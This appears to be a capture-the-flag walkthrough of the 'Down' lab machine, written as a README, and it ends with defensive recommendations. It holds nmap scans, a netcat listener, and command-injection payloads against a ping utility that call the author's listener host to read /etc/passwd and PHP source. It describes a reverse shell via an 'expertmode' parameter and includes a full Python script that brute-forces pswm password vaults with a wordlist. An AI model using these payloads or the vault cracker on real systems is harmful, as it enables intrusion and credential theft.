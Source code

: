 ![](images/image0.png)

# Down Machine Exploitation Walkthrough

This document provides a **professional, extended, and formatted** walkthrough of the *Down* machine exploitation.  
It details every step from reconnaissance to privilege escalation, maintaining clarity and completeness for future reference.

---

## 1. Initial Enumeration

We started with a full Nmap scan to identify all open ports and active services on the target:

```bash
nmap -p- -Pn 10.129.234.87 -v -T5 --min-rate 1000 --max-rtt-timeout 1000ms --max-retries 5 -oN nmap_ports.txt && sleep 5 && nmap -Pn 10.129.234.87 -sC -sV -v -oN nmap_sVsC.txt && sleep 5 && nmap -T5 -Pn 10.129.234.87 -v --script vuln -oN nmap_vuln.txt
```

![](images/image6.png)

This revealed that the target hosts a web service accessible via port 80. No other high-value ports were exposed at this stage.

---

## 2. Web Application Discovery

Upon visiting the web page, we discovered a **ping utility** that allows users to send ICMP requests to arbitrary hosts.

![](images/image5.png)

We tested it by pinging our own machine and confirmed the functionality works as expected.

To capture callbacks or outbound requests, we set up a listener on our attacking machine:

```bash
nc -lvnp 8000
```

![](images/image3.png)

---

## 3. File Retrieval via Command Injection

During testing, we discovered that the ping feature is vulnerable to **command injection**.  
By chaining additional commands, we were able to exfiltrate arbitrary files from the system.

Example payload:

```
http://10.10.15.30:8000/hello ; file:///etc/passwd
```

![](images/image7.png)

After successful retrieval of `/etc/passwd`, we proceeded to inspect the web application's source code:

```
http://10.10.15.30:8000/hello ; file:///var/www/html/index.php
```

![](images/image13.png)

Analysis of the PHP source revealed a parameter called `expertmode`, which, when set to `tcp`, unlocked a new input form.

![](images/image8.png)

---

## 4. Exploitation and Reverse Shell

We attempted to achieve remote command execution through the **expert mode form**.  
Initial attempts failed due to reverse lookup restrictions, but after modifying our payload to include `-e /bin/bash`, we achieved execution.

![](images/image12.png)

Using **Burp Suite**, we intercepted and modified the request to successfully spawn a reverse shell.

![](images/image11.png)

Once connected, we confirmed a working shell and stabilized it for interactive use.

![](images/image2.png)

---

## 5. Post-Exploitation & User Enumeration

Upon stabilizing the shell, we located the user flag in the home directory.  
Next, we began privilege escalation enumeration and inspected user directories.

![](images/image1.png)

During manual inspection, we discovered readable files on another user's desktop (`aleks`).

![](images/image10.png)

Further digging revealed the presence of what appeared to be **encrypted credential files**.

![](images/image14.png)

---

## 6. Credential Extraction (PSWM Decryption)

We identified a reference to **pswm**, a password manager. The related GitHub repository is available here:

🔗 [https://github.com/Julynx/pswm](https://github.com/Julynx/pswm)

We developed a custom **Python tool** to brute-force decrypt the `pswm` vault file using a wordlist.

```python
#!/usr/bin/env python3
"""
A script to decrypt a pswm password vault by trying passwords from a wordlist.
"""

import os
import sys
import argparse
import cryptocode

DEFAULT_VAULT_PATH = os.path.expanduser("~/.local/share/pswm/pswm")

def print_decrypted_content(decrypted_text):
    print("\n--- Vault Decrypted Successfully ---")
    lines = decrypted_text.strip().split('\n')
    print(f"{'Alias':<25} {'Username':<25} {'Password'}")
    print("-" * 70)
    for line in lines:
        try:
            alias, username, password = line.split('\t')
            print(f"{alias:<25} {username:<25} {password}")
        except ValueError:
            continue
    print("-" * 70)

def bruteforce_vault(vault_path, wordlist_path):
    if not os.path.isfile(vault_path):
        print(f"❌ Error: Vault not found at '{vault_path}'")
        sys.exit(1)
    if not os.path.isfile(wordlist_path):
        print(f"❌ Error: Wordlist not found at '{wordlist_path}'")
        sys.exit(1)

    with open(vault_path, 'r') as f:
        encrypted_content = f.read()

    with open(wordlist_path, 'r', encoding='utf-8', errors='ignore') as f:
        passwords = f.readlines()

    for password in passwords:
        decrypted_content = cryptocode.decrypt(encrypted_content, password.strip())
        if decrypted_content and '\t' in decrypted_content:
            print(f"✅ Success! Master Password Found: {password.strip()}")
            print_decrypted_content(decrypted_content)
            return

    print("❌ No valid password found.")

if __name__ == "__main__":
    parser = argparse.ArgumentParser(description="Decrypt a pswm password vault using a wordlist.")
    parser.add_argument("wordlist", help="Path to the wordlist file")
    parser.add_argument("-v", "--vault", dest="vault_path", default=DEFAULT_VAULT_PATH,
                        help=f"Path to pswm vault (default: {DEFAULT_VAULT_PATH})")
    args = parser.parse_args()
    bruteforce_vault(args.vault_path, args.wordlist)
```

We executed the tool using:

```bash
python3 decrypt.py rockyou.txt -v pswm_file
```

![](images/image15.png)

The script successfully retrieved **valid credentials**.

---

## 7. Privilege Escalation

Using the recovered credentials, we switched users to **aleks**:

![](images/image4.png)

After running `sudo -l`, we discovered full `sudo` privileges.

![](images/image9.png)

A simple `sudo su` granted root access.

![](images/image16.png)

We then retrieved the root flag from `/root/root.txt`.

---

## 8. Summary of the Attack Path

### Key Steps:
1. Web command injection via ping functionality.  
2. File read vulnerability to extract sensitive PHP code.  
3. Command execution through `expertmode` parameter.  
4. Lateral movement via decrypted PSWM vault credentials.  
5. Privilege escalation using unrestricted `sudo` privileges.

### Recommendations:
- Sanitize and validate all user input server-side.  
- Restrict sensitive system file access from web applications.  
- Regularly rotate user passwords and remove unnecessary sudo permissions.  
- Avoid storing plaintext or weakly encrypted credentials locally.  
- Implement robust monitoring to detect unauthorized shell access.

---
